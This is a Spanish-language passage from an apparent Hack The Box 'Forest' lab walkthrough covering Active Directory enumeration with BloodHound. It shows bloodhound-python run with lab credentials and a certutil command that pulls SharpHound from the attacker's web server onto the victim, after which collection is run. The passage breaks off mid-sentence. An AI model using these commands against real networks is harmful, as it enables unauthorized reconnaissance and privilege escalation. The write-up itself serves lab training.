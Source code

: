 Utilizare bloodhound-python para recolectaar informacion.json para cargar en

bloodhund. 

![list](/assets/img/forest/Kali-2022-09-13-23-21-44.png){:.lead width="800" height="100" loading="lazy"}


```bash
bloodhound-python -c All -u 'svc-alfresco' -p 's3rvice' -ns 10.10.10.161 -d htb.local
```

En este caso vamos a enumerar posibles vectores para escalar privileguios con bloodHound

```bash
neo4j console
```

{:.note}
Arrancamos neo4j que comparte un servicio por el puero 4747 y te loogeas si ya los 

has hecho habres el bloodhound.

```bash
bloodhound &> /dev/null & disown
```

{:.note}
Independizamos el proceso.

Otra opcion es con SharpHound recolectar la misma info atraves de la maquina victima 

para esto debemos trasferir el binario a la maquina victima, desce la ubicacion del 

binarion en ta maquina atacate levatamos un servidor web con pyton y en la maquina 

victima hacemos el siguite comado.

```bash
certutil.exe -urlcache -split -f http://10.10.14.15/SharpHound.ps1 SharpHound.ps1
```

```bash
Import-Module .\SharpHound.ps1
```

```bash
Invoke-BloodHound -CollectionMethod All
```

Nos arroga un archivo.zip que luego no lo pasamos a la maquina atacate y de ahi lo 
